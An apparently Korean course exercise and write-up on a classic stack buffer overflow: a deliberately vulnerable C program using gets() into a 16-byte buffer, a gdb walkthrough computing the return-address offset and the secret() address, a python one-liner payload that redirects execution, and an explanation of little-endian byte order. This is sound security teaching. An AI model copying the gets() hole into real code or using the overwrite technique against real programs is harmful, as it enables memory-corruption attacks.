

# Challenge1. ret address 덮어서 실행 흐름 바꾸기

# 문제

- 5주차에서 ret address가 덮이는 것을 확인했다면, 이번엔 실제로 원하는 함수로 실행 흐름을 바꿔보기
- 아래 코드를 `gcc -g -O0 -fno-stack-protector -no-pie`로 컴파일

```
void secret() {
    printf("secret function called!\\n");
}

void vuln() {
    char buf[16];
    gets(buf);
}

int main() {
    vuln();
    return 0;
}
```

- 아래 순서로 익스플로잇 진행
    1. gdb로 buf와 ret address 사이의 거리(offset) 계산
    2. secret() 함수의 주소 확인 (gdb: p secret 또는 info functions)
    3. python3 -c "print('A'*offset + secret_addr)" | ./vuln 형태로 실행
    (little endian 바이트 순서 주의)
    4. "secret function called!" 출력 확인
- 익스플로잇 성공 화면을 캡처하고 아래 내용 정리
    - offset을 어떻게 계산했는지
    - `secret()` 주소를 어떻게 확인했는지
    - little endian이 무엇인지, 왜 주소를 뒤집어서 넣어야 하는지

# 풀이

## 1. Exploit

```bash
# 브레이크 포인트 설정
(gdb) break vuln

# 프로그램 실행
(gdb) r

# buf 주소 확인
(gdb) p &buf
$1 = (char (*)[16]) 0x7fffffffe0d0

# 스택 프레임 정보 확인: rip at -> ret address가 저장된 메모리 위치
(gdb) info frame
.
.
Saved registers:
 rbp at 0x7fffffffe0e0, rip at 0x7fffffffe0e8 
```

offset 계산 방법은 아래와 같다. 

- offset = ret_addr_위치 - buf_시작_주소

```bash
# offset 계산
(gdb) p 0x7fffffffe0e8 - 0x7fffffffe0d0
$2 = 24
```

이어서 secret() 주소를 확인하는 방법은 아래와 같다. 

```bash
# secret() 주소 확인
(gdb) p secret
$3 = {void ()} 0x401176 <secret>
```



익스플로잇을 다음과 같은 명령어로 실행한다. 

```bash
python3 -c "print('A'*[offset] + '[secret() 주소]')" | ./vuln
```

아래와 같이 성공한 것을 확인할 수 있다. 


## 2. Little endian

little endian이 무엇인지, 왜 주소를 뒤집어서 넣어야 하는지 더 알아보자. 

### **2.1. Little Endian 개념**

Endian은 멀티바이트 값을 메모리에 저장할 때 바이트 순서를 정하는 방식이다.

| 방식 | 설명 | 예: `0x401176`을 저장 |
| --- | --- | --- |
| **Big Endian** | 높은 자리 바이트가 낮은 주소에 저장 (사람이 읽는 순서) | `00 00 00 00 00 40 11 76` |
| **Little Endian** | 낮은 자리 바이트가 낮은 주소에 저장 (역순) | `76 11 40 00 00 00 00 00` |

x86-64 CPU는 **Little Endian** 방식을 사용한다.

### 2.2. 왜 뒤집어서 넣어야 하는가?

CPU가 스택에서 `ret` 주소를 읽을 때 Little Endian 순서로 해석하기 때문에, 메모리에 쓸 때도 낮은 바이트부터 써야 한다.

```
목표 주소: 0x0000000000401176

메모리에 저장되는 순서 (낮은 주소 → 높은 주소):
[0x76] [0x11] [0x40] [0x00] [0x00] [0x00] [0x00] [0x00]
  ↑
  낮은 자리 바이트가 먼저!
```

Python의 `struct.pack('<Q', 0x401176)`이 이 변환을 자동으로 해준다

- `<` = Little Endian
- `Q` = unsigned 64-bit (8 bytes)

```python
>>> import struct
>>> struct.pack('<Q', 0x401176)
b'v\\x11@\\x00\\x00\\x00\\x00\\x00'   # 0x76 = 'v'
```